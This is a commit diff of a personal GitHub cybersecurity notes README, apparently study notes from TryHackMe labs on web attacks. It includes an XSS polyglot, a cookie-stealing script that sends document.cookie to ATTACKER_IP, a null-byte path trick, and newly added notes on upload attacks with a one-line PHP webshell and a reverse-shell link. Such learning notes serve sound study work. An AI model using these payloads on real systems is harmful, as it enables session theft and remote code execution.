

Before and after one commit to smmehrab/cybersecurity, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
THM Upload Vulnerabilities Done

````diff
--- a/README.md
+++ b/README.md
@@ -423,6 +425,8 @@
 - [gobuster](https://www.kali.org/tools/gobuster/)
   - Directory Enumeration
     ``gobuster -u MACHINE_IP -w /snap/seclists/current/Discovery/Web-Content/directory-list-1.0.txt``
+  - `+x php,txt,html` will add these extensions to each word while enumerating.
+  - `-t 250`
 - [nikto](https://www.kali.org/tools/nikto/)
 - [nessus](https://www.tenable.com/products/nessus?utm_campaign=gs-{11596512479}-{110256808302}-{537515898656}_00026644_fy23&utm_promoter=tenable-hv-brand-00026644&utm_source=google&utm_term=nessus&utm_medium=cpc&utm_geo=apac&gclid=CjwKCAjw5remBhBiEiwAxL2M94jwwfvyR4FWvmcRZhAz1xxjoaZSZlPskF3mbHCn9c7zI-DdcrOLbBoCn0IQAvD_BwE)
 - Inspect Webhook and HTTP Requests
@@ -430,10 +434,12 @@
 - [Beef](https://beefproject.com/)
 - XSS
   - Blind XSS
+
     - [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)
   - XSS Polyglot
     ``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``
   - Cookie Stealing XSS
+
     ```
     </textarea><script>fetch('http://ATTACKER_IP:PORT?cookie=' + btoa(document.cookie) );</script>
     ```
@@ -450,6 +460,31 @@
   - Generate Hash: [https://www.srihash.org/](https://www.srihash.org/)
   - ``<script src="https://code.jquery.com/jquery-3.6.1.min.js" integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ=" crossorigin="anonymous"></script>``
 - [bypass-403](https://github.com/iamj0ker/bypass-403)
+- Poison Null Byte "*%00"*
+  - `http://10.10.91.44/ftp/package.json.bak%2500.md`
+  - By placing a NULL character in the string at a certain byte, the string will tell the server to terminate at that point, nulling the rest of the string.
+- Broken Access Control
+  - Horizontal Privilege Escalation
+    User performing an action or access data of another user with the same level of permissions.
+  - Vertical Privilege Escalation
+    User performing an action or access data of another user with a higher level of permissions.
+- Upload Vulnerabilities
+  - Overwriting Existing Files
+  - Remote Code Execution (RCE)
+    - It's worth noting that in a routed application (i.e. an application where the routes are defined programmatically rather than being mapped to the file-system), this method of attack becomes a lot more complicated and a lot less likely to occur. Most modern web frameworks are routed programmatically.
+    - Webshells
+      - `gobuster dir -u SERVER_URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250`
+      - ```
+        <?php echo system($_GET["cmd"]); ?>
+        ```
+    - Reverse/Bind Shells
+      - [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
+  - Bypassing Client-Side Filtering
+    - Burp Suite
+  - Bypassing Server-Side Filtering
+    - File Extensions
+    - Magic Numbers
+      - [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
 -
 
 #### Network Services
````
Also changed, not shown: other parts of README.md (+6 -0 lines).
